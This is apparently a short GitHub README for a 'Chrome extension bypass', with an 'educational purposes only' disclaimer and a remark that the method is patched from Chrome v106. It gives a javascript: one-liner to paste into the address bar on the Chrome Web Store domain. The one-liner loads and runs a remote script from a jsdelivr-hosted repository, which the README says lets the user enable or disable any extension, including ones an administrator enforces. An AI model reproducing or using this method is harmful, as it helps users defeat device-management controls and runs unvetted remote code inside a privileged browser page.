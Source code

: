 WARNING: FOR EDUCATIONAL PURPOSES ONLY I AM NOT RESPONSIBLE FOR ANYTHING IF YOU USE THIS

Patched in Chrome v106+ to check your Chrome version goto chrome://version/

To use goto https://chrome.google.com/webstorex you will get a 404 Error but that doesn't matter replace the URL and type: "javascript:" than copy and paste: "(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/Chrome-Extention-Bypass/bypass.js';document.body.appendChild(a);}())" now you should have something like this: "javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/Chrome-Extention-Bypass/bypass.js';document.body.appendChild(a);}())" now press ENTER and you will be able to Enable/Disable any extension.
